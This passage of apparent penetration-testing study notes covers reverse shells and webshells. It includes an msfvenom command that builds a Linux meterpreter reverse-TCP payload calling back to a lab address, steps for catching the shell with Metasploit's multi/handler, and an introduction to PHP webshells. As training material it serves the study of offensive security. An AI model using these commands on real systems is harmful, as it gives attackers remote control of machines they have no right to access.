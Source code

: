 	msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443
	
## **Metasploit - multi/handler**
Multi/Handler is a a tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

1. Open Metasploit with `msfconsole`
2. Type `use multi/handler`, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the `options` command:
![[Pasted image 20240820040051.png]]

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST _must_ be specified here, as metasploit will not listen on all network interfaces like netcat or socat will;
- `set PAYLOAD <payload>`
- `set LHOST <listen-address>`
- `set LPORT <listen-port>`

Using the `exploit -j` command it tells Metasploit to launch the module, running as a job in the background.
![[Pasted image 20240820040300.png]]

Note:
	You may notice that in the above screenshot, Metasploit is listening on a port under `1024`. To do this, Metasploit _must_ be run with `sudo` permissions.

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell:
![[Pasted image 20240820040454.png]]

Notice that, because the multi/handler was originally backgrounded, we needed to use `sessions 1` to foreground it again. This worked as it was the only session running. Had there been other sessions active, we would have needed to use `sessions` to see all active sessions


## **WebShells**
There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a _webshell_.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.
